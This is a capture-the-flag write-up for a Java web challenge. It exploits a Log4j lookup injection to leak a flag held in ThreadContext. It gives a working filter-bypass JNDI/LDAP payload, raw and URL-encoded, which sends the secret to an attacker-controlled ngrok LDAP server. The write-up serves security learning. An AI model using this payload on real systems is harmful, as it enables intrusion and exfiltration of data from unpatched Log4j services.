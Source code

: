 # Writeup

Upon opening the website we are greeted with an input bar. It's says random gif generator and it does in fact generate random gif upon entering a word.

![dog](img/dog.png)

From the description we can deduce that the server is running on java. Provided java file proves that theory.

```java
@RestController
public class MainController {

    private static final Logger logger = LogManager.getLogger("HelloWorld");

    @GetMapping("api/check-gif")
    public String index(@RequestParam("input") String input) {
        String preparedGif = input
        .trim()
        .replace("jndi", "")
        .replace("ldap", "")
        .replace("lower", "")
        .replace("upper", "");

        ThreadContext.put("id", UUID.randomUUID().toString());
        ThreadContext.put("flag", "CTF{sample}");

        logger.info("Received query for gif: {}", preparedGif);
        
        return preparedGif;
    }
```

It simply removes whitespaces and some words and returns prepared string. There is a `logger.info` which hints a Log4J. Also, it seems like the flag is hidden inside the `ThreadContext` so getting a shell isn't very useful here. One last thing is that we can't use `jndi`, `ldap`, `lower` and `upper` keywords.


Now let's check the website. Besides the two buttons there doesn't seem to be any more here. Sending a gif we can look at the Network tab to see the request

![request](img/request.png)

We can see the request to backend with `GET` parameter `?input=`. It means that we have to url encode our payload.

Inspecting the [Log4j lookups site](https://logging.apache.org/log4j/2.x/manual/lookups.html) in the section `Environment Lookup` there is a note about default values. When we craft our payload as so: `${env:SOME_NONEXISTENT_VARIABLE:test}` we can actually inject our own string so we can bypass the no `ldap` and `jndi` check.

The payload for now looks like this: 
```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-://<ip>:<port>}
```

Now we need to somehow get the `ThreadContext` value. From the same site as earlier we can find that there is a lookup for it. Writing `${ctx:flag}` should give us the flag.

The only thing that's left is to receive the payload. We can use the [ldap-log4j](https://github.com/kannthu/ldap-log4j) exploit from github. It sets up an ldap server and reads the contents of path. 

```
node script.js
```
![ldap](img/ldap.png)

In order for a server to connect to us, we need to forward the port to some public ip. I'll use ngrok for that.
```
ngrok tcp 4000
```

![ngrok](img/ngrok.png)

We need to copy the ip under the `Forwarding` label, omitting the `tcp` part `2.tcp.eu.ngrok.io:13994`.

The final exploit looks like this (Ip `2.tcp.eu.ngrok.io:13994` is random. You need to adjust it to your own output of ngrok): 
```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//2.tcp.eu.ngrok.io:13994/${ctx:flag}}
```

and running it through url encode (Again, you have to encode it manually, since the ip here won't be the same as yours):
```
%24%7B%24%7Benv%3AENV_NAME%3A-j%7Dndi%24%7Benv%3AENV_NAME%3A-%3A%7D%24%7Benv%3AENV_NAME%3A-l%7Ddap%24%7Benv%3AENV_NAME%3A-%3A%7D%2F%2F2.tcp.eu.ngrok.io%3A13994%2F%24%7Bctx%3Aflag%7D%7D
```

Pasting that string into the input on the website, we can inspect our malicious LDAP server:

![flag](img/flag.png)

```
CTF{l0g5_b3l0ng_70_c4mpf1r35_n07_c0mpu73r5}
```

